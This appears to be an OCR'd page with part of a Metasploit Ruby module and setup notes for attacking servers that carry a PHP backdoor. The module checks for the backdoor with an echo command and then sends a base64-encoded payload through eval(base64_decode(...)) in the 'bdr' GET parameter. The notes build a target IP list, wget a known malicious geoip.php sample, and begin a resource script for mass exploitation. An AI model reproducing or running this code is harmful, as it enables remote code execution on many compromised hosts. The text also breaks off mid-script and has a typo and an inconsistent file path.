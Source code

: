   def check
    test = Rex::Text.rand_text_alpha(8)
    res = http_send_command("echo \"#{test}\";")
    if res && res.body.include?(test)
      return Exploit::CheckCode::Vulnerable
    end
    Exploit::CheckCode::Safe
  end

  def exploit
    encoded = Rex::Text.encode_base64(payload.encoded)
    http_send_command("eval(base64_decode(\"#{encoded}\"));")
  end

  def http_send_command(cmd)
    send_request_cgi(
      'method'   => 'GET',
      'uri'      => normalize_uri(target_uri.path),
      'vars_get' => {
        'bdr' => cmd
      }
    )
  end
end
<ruby>
```

# navigato to DIR ~/git/metasploit-framework/modules/exploits/multi/http/Phoenix

```
cd ~/git/metasploit-framework/modules/exploits/multi/http/Phoenix
```

```
mkdir Phoenix

cd Phoenix
touch ip_lists.txt
sudo nano ip_lists.txt

mkdir includes
cd includes
```

# Download malicious copy of geoip.php into includes DIR

```
wget https://raw.githubusercontent.com/shipcod3/IRC-Bot-Hunters/master/malicious_samples/geoip.php
```

# create the following script. Notice you will probably need to modify the ip_list path, and payload options accordingly, 

```touch exploit_hosts.rc```
```sudo nano exploit_hosts.rc```

# copy and paste ctrl + x SAVE: Y

```
<resource script>
#
# Modify the path if necessary
#
ip_list = 'exploit/modules/multi/http/Phoenix/ip_list.txt'
